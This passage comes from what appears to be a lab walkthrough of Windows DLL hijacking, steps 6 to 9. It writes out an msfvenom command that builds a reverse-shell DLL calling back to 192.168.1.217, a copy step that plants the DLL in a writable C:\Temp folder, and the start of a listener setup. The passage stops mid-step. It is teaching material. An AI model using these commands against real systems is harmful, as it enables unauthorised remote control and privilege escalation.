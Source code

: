 
##### Step 6.

-  Start the service in the Windows virtual machine. `net start dllsvc` ![start_service](start_service.png)


##### Step 7. 
Investigate the result of Pocmon capture. ![investigatation](hijackme.png)

From the output:

-   We can see the number of NOT FOUND error messages for hijackme.dll file
-   We can see Windows is trying to go into each folder to find the file, and at some point, it went into `C:\Temp\` folder `where we have write permission` to find hijackme.dll file
-   We can create our file with a reverse shell named hijackme.dll and put it in this folder, and Windows will execute it.

##### Step 8. 
Create DLL reverse shell in Linux using this command
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.217 LPORT=7676 -f dll -o hijackme.dll`

-   Please change the IP address of the command to yours and port number to the one you want to listen to.
-   Transfer this file into the `C:\Temp` folder by `copy \\192.168.1.217\tools\hijackme.dll C:\Temp\`

##### Step 9.
-   Create a listener on your Linux machine
 